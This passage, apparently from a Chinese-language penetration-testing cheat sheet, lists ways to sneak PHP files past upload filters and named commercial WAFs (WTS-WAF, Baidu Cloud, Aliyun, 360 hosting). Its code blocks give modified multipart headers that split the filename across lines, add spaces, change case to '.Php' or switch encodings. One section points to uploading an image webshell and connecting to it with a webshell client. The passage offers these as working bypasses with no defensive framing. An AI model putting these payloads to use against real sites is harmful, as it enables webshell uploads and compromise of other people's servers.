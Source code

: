7.HTTP header 属性名称绕过

```
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".
```

8.等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。
```

9.修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等
```

#### WTS-WAF 绕过上传

```
原内容：
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"
```

#### 阿里云上传绕过

```
源代码：
Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; name="img_crop_file"; filename="1.php"
没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。
```

#### 360主机上传绕过

```
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content- Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格Disposition
```
